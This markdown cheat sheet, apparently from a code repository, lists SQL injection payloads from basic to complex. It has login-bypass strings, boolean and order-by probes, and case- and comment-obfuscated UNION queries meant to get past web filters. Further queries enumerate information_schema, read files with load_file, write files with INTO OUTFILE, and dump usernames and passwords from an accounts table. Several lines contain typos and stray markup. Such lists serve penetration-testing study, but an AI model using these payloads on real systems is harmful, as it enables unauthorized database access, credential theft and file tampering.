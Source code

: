 

### Summary:


__Basic__

>> __' OR 1=1 ;--__ 
    
>> __') OR 1=1; --__ 
   
>> __' and 'a '='a__

>> __' and 'a'='b__

   
&nbsp;
&nbsp;
&nbsp;

__Medium:__


>>  1' and 1=1 &nbsp;  | nbsp; True 


>>  1' and 1=0 &nbsp;  |  &nbsp; False 


>>  1' order by 1  &nbsp; |  &nbsp; True


>>  1' order by 10000 &nbsp; | &nbsp; False


>>  1 or db_name()=1); &nbsp;|  &nbsp;


>>  1 or db_name(0)=1) &nbsp; | &nbsp; increase the number until the database does not show any errors



>> 9999' UNION SELECT name,222,'else1' FROM master.syslogin; -- 

&nbsp;
&nbsp;
&nbsp;

__Complex:__

>> union select 1, 2, 3 %23                  &nbsp;&nbsp;  |  Bypass Web filters  | 


>> uNioN+sEleCt+1,2+%23                      &nbsp;&nbsp;  |  Bypass Web filters  |  


>> uNioN`/**/`sEleCt`/**/`1,2`/**/`%23       &nbsp;&nbsp;  |  Bypass Web filters  | 
>>

>> UniOn selEct 1,version() /*


>> UniOn selEct 1,database() /*


>> UniOn selEct 1,user() /*


>> UniOn selEct 1,table_name frOm information_schema.tables table_schema = '[database name]' /*


>> UniOn selEct 1,column_name frOm information_schema.columns table_name = '[table name]' /*


>> UniOn selEct 1,[column name] frOm [table name] /*


>> UniOn selEct 1,load_file('file location') /*   Reading files:


>> UniOn selEct null,[file content] inTo outfile '/location/to/write/file/to' /*  Writing files 


>> union select 1, column_name, null, from Infromation_schema .columns where table_name = 0x769166  &nbsp;&nbsp; | hex encoding                                                                                                                                dbname   


>>  ' union select 1, column_name, null, null, null, 5 from Infromation_schema.columns where table_name = 'accounts' | 


>>  ' union select username, pass, is_admin from 'accounts' &nbsp;&nbsp;  | 


>>  ' union select 1, table_name, null, null, null, 5 from Infromation_schema.tables where table_schema = 'owasdb |

